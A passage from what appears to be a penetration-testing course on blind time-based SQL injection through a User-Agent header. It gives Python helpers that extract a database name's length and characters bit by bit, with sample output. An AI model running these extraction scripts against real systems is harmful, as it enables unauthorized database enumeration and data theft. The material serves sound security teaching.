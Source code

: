 In the example of `Aunt Maria's Donuts`, we went straight to dumping out `maria's` password. However, this involved guessing the name of the password column and assuming we were selecting from the users table. In this case, we don't know anything about the query being run except that it involves the `User-Agent`.

Therefore, we want to enumerate the databases/tables/columns first and then look at what could be worth dumping. The first thing we want to do is dump out the `name` of the `database` we are in. Let's expand the script with the following function which will allow us to dump the value of a `number` (less than 256) and then call it to get the value of `LEN(DB_NAME())`.

```python
# Dump a number
def dumpNumber(q):
    length = 0
    for p in range(7):
        if oracle(f"({q})&{2**p}>0"):
            length |= 2**p
    return length

db_name_length = dumpNumber("LEN(DB_NAME())")
print(db_name_length)

```

When dealing with `time-based` injections, the algorithms we discussed in the `Optimizing` section show their worth: running `7` queries with `bisection` or `SQL-anding` might take `7 seconds`, versus the `100+ seconds` it could take if we used a simple loop. This is already a difference of `minutes` just for dumping a single character! In this case, we chose to use `SQL-Anding` again, but if you'd prefer to use a different algorithm feel free. As this is a `time-based` injection, results will, unfortunately, come much slower than in the `boolean-based` example, but after a couple of seconds, we should get an answer.

```shell
python .\poc.py
8

```

Knowing the length of `DB_NAME()` we can dump the string value. Make sure to replace the call to `dumpLength` with the value so we don't run it again.

```python
db_name_length = 8 # dumpNumber("LEN(DB_NAME())")
# print(db_name_length)

# Dump a string
def dumpString(q, length):
    val = ""
    for i in range(1, length + 1):
        c = 0
        for p in range(7):
            if oracle(f"ASCII(SUBSTRING(({q}),{i},1))&{2**p}>0"):
                c |= 2**p
        val += chr(c)
    return val

db_name = dumpString("DB_NAME()", db_name_length)
print(db_name)

```
